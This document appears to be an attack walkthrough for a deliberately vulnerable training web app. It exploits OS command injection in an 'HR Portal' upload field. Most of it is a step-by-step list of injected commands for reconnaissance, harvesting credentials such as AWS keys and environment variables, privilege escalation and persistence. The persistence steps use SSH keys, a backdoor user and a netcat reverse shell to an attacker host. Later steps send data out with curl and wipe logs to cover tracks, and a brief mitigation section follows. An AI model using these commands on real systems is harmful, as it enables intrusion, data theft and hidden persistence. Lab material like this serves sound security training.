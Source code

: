 
# Attack 2: OS Command Injection

This guide walks through exploiting OS Command Injection vulnerabilities in the HR Portal to gain unauthorized access.

## Step 1: Access the Document Upload Page

1. Log in to the HR Portal (you can use SQL injection from Attack 1)
2. Navigate to the Document Upload page (`/documents`)

## Step 2: Basic Command Injection 

1. In the "Upload Destination" dropdown, select "System Command - List Files (OS Injection)" or:
   - Select "Custom Location" and enter `cmd:ls -la`
2. Click "Execute Command"
3. The command will execute on the server and the response will display in the preview window

## Step 3: Information Gathering

Use OS command injection to gather information about the system:

1. Basic system commands:
   - `cmd:whoami` - Shows the current user running the application
   - `cmd:id` - Shows user ID and group memberships
   - `cmd:pwd` - Shows current working directory
   - `cmd:uname -a` - Shows system information
   - `cmd:ps aux` - Lists running processes

2. File system exploration:
   - `cmd:ls -la /` - List root directory
   - `cmd:ls -la /home` - List home directories
   - `cmd:ls -la /var/www` - List web directories
   - `cmd:ls -la /etc` - List configuration files

3. Finding sensitive information:
   - `cmd:cat /etc/passwd` - List all users
   - `cmd:find / -name "*.conf" -type f 2>/dev/null` - Find config files
   - `cmd:find / -name "*.env" -type f 2>/dev/null` - Find environment files
   - `cmd:find / -name "*.pem" -type f 2>/dev/null` - Find SSL certificates
   - `cmd:grep -r "password" /etc 2>/dev/null` - Search for passwords

## Step 4: Network Reconnaissance

Use OS command injection for network reconnaissance:

1. Network configuration:
   - `cmd:ifconfig` or `cmd:ip a` - Show network interfaces
   - `cmd:netstat -tuln` - Show listening ports
   - `cmd:cat /etc/hosts` - View hostname mappings

2. Network connectivity testing:
   - `cmd:ping -c 1 8.8.8.8` - Check external connectivity
   - `cmd:curl -I http://localhost` - Check local web server
   - `cmd:curl -I http://internal-jenkins:8080` - Check internal services

## Step 5: Credential Harvesting

Look for credentials and configuration files:

1. Check environment variables:
   - `cmd:env` or `cmd:printenv` - List all environment variables

2. Configuration files:
   - `cmd:cat /var/www/html/config.json` - Application config
   - `cmd:cat /etc/nginx/nginx.conf` - Web server config
   - `cmd:cat ~/.aws/credentials` - AWS credentials

3. Database credentials:
   - `cmd:find / -name "wp-config.php" 2>/dev/null` - WordPress config
   - `cmd:grep -r "username" --include="*.xml" --include="*.properties" /opt 2>/dev/null`

## Step 6: Privilege Escalation Techniques

Look for privilege escalation opportunities:

1. SUID binaries:
   - `cmd:find / -perm -u=s -type f 2>/dev/null` - Find SUID binaries

2. Sudo permissions:
   - `cmd:sudo -l` - Check what commands can be run as sudo

3. Cron jobs:
   - `cmd:cat /etc/crontab` - System cron jobs
   - `cmd:ls -la /etc/cron.*` - Cron directories

4. Process information:
   - `cmd:ps aux | grep root` - Look for processes running as root

## Step 7: Creating Persistence

Establish persistence on the system:

1. SSH key access:
   - `cmd:mkdir -p ~/.ssh`
   - `cmd:echo "ssh-rsa AAAA..." > ~/.ssh/authorized_keys`
   - `cmd:chmod 600 ~/.ssh/authorized_keys`

2. Add a backdoor user (requires root privileges):
   - `cmd:useradd -m -s /bin/bash hacker`
   - `cmd:echo "hacker:password" | chpasswd`
   - `cmd:usermod -aG sudo hacker`

3. Modify startup scripts:
   - `cmd:echo "nc -e /bin/bash attacker-ip 4444 &" >> /etc/rc.local`

## Step 8: Data Exfiltration

Exfiltrate data from the system:

1. Archiving data:
   - `cmd:tar czf /tmp/data.tar.gz /var/www/html`
   - `cmd:zip -r /tmp/data.zip /var/www/html`

2. Exfiltration via HTTP:
   - `cmd:curl -F "file=@/tmp/data.tar.gz" http://attacker-server/upload`

## Step 9: Covering Tracks

Cover your tracks:

1. Clear logs:
   - `cmd:echo > /var/log/auth.log`
   - `cmd:echo > /var/log/syslog`
   - `cmd:echo > ~/.bash_history`

2. Remove temporary files:
   - `cmd:rm -rf /tmp/data.tar.gz`

## Mitigation Strategies

To protect against OS command injection:

1. Input validation and sanitization
   - Validate inputs against an allowed list
   - Sanitize inputs by removing or escaping dangerous characters

2. Avoid direct command execution
   - Use built-in functionality instead of calling system commands
   - If command execution is necessary, use parameterized APIs

3. Implement a security policy
   - Use SecComp or AppArmor to restrict system calls
   - Run the application with minimal privileges

4. Use a web application firewall (WAF)
   - Implement a WAF to detect and block command injection attempts

5. Regular security testing
   - Perform regular security assessments to identify vulnerabilities

## Troubleshooting Command Injection Attacks

If your command injection attacks aren't working:

1. Make sure commands are properly URL-encoded
2. Try simple commands first (e.g., `cmd:whoami`) before complex ones
3. Check for command output filtering or sanitization
4. Try different command separators (e.g., `;`, `&&`, `||`)

Remember that in a real attack, OS command injection vulnerabilities can lead to complete system compromise, data theft, and unauthorized access to sensitive information.
